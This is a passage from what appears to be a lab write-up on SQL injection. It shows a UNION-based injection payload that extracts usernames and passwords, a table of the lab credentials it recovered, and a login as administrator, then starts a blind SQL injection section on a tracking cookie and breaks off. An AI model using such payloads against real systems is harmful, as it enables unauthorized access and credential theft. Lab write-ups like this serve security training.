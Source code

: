<br/>

**Query Injected:**


```sql
' UNION SELECT USERNAME_DZLIPE, PASSWORD_SCZFUD FROM USERS_LXUXKC--
```

- The query will essentially extract the `USERNAME_DZLIPE` and `PASSWORD_SCZFUD` columns from the `USERS_LXUXKC`

<br/>

**User Credentials:**

 | **Usernames** | **Passwords** | 
 | ---- | ---- | 
 | administrator | 43kdwuj4rjtg2vua5pl1 | 
 | carlos | yq4r34kvd1p264rilmsc | 
 | wiener | 7u7fy3yx7jvvh2hljqfj | 

<br/>

![c932c1d6_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/453c3e84-6b11-4c01-b97e-a4683fa964f1)

![39cc2bf5_Untitled](https://github.com/Fedwig/picoCTF2023-Writeup/assets/85858497/b66442aa-5427-4cb7-a9f6-e769175f9c4b)

- **Successfully logged in as Administrator**

<br/>

<br/>

<br/>

## Blind SQL Injection

<br/>

### Lab: Blind SQL injection with conditional responses

<br/>

In this case, the tracking cookie is vulnerable to an SQL injection.

`Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4`

<br/>

A request containing a `TrackingId` cookie is processed and along with that the application determines if its a known user using an SQL query.

<br/>

**Sample Query:**

